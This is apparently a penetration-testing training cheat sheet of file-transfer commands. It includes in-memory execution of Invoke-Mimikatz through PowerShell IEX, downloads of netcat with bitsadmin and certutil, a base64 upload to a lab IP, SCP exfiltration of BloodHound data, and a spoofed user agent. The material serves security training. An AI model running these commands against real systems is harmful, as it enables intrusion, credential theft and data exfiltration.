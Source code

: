 # File Transfers

The cheat sheet is a useful command reference for this module.

| **Command**                                                  | **Description**                             |
| ------------------------------------------------------------ | ------------------------------------------- |
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell             |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')` | Execute a file in memory using PowerShell   |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell               |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin             |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil              |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget                  |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL                  |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP                   |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP                     |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`     | Download a file using SCP                   |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |